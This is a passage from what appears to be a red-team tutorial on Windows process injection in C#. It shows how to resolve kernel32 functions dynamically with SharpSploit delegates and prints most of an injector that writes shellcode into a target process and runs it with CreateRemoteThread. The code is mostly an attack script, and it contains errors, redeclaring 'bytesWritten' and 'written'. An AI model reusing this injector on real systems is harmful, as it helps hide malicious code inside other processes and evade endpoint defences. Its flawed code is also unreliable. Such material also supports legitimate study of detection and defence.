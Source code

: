 Now, to call a delegate, three steps are required:
1. Get the pointer of the function within the DLL
2. Marshal the pointer into the delegate representing our target API (and cast it)
3. Instantiate the delegate (calls the API)

```csharp
var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
var openProcess = Marshal.GetDelegateForFunctionPointer(pointer, typeof(OpenProcess)) as OpenProcess;
var hProcess = openProcess(0x001F0FFF, false, <TARGET-PID>);
```

Eventually, we'll have the full program:

```csharp
using System;
using System.Linq;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using SharpSploit.Execution.DynamicInvoke;

namespace Inject
{

    public static class Inject
    {

        public static void Main(string[] args)
        {
            var shellcode = "...";
            
            // OpenProcess
            var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
            var openProcess = Marshal.GetDelegateForFunctionPointer(pointer, typeof(OpenProcess)) as OpenProcess;
            var hProcess = openProcess(0x001F0FFF, false, int.Parse(args[0]));

            // VirtualAllocEx
            pointer = Generic.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
            var virtualAllocEx = Marshal.GetDelegateForFunctionPointer(pointer, typeof(VirtualAllocEx)) as VirtualAllocEx;
            var alloc = virtualAllocEx(hProcess, IntPtr.Zero, (UInt32)shellcode.Length, 0x1000 | 0x2000, 0x40);
            
            // WriteProcessMemory
            UInt32 bytesWritten = 0;
            pointer = Generic.GetLibraryAddress("kernel32.dll", "WriteProcessMemory");
            var writeProcessMemory = Marshal.GetDelegateForFunctionPointer(pointer, typeof(WriteProcessMemory)) as WriteProcessMemory;
            var written = writeProcessMemory(hProcess, alloc, shellcode, (UInt32)shellcode.Length, out bytesWritten);
            
            // CreateRemoteThread
            UInt32 bytesWritten = 0;
            pointer = Generic.GetLibraryAddress("kernel32.dll", "CreateRemoteThread");
            var createRemoteThread = Marshal.GetDelegateForFunctionPointer(pointer, typeof(CreateRemoteThread)) as CreateRemoteThread;
            var written = createRemoteThread(hProcess, IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
        }

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

```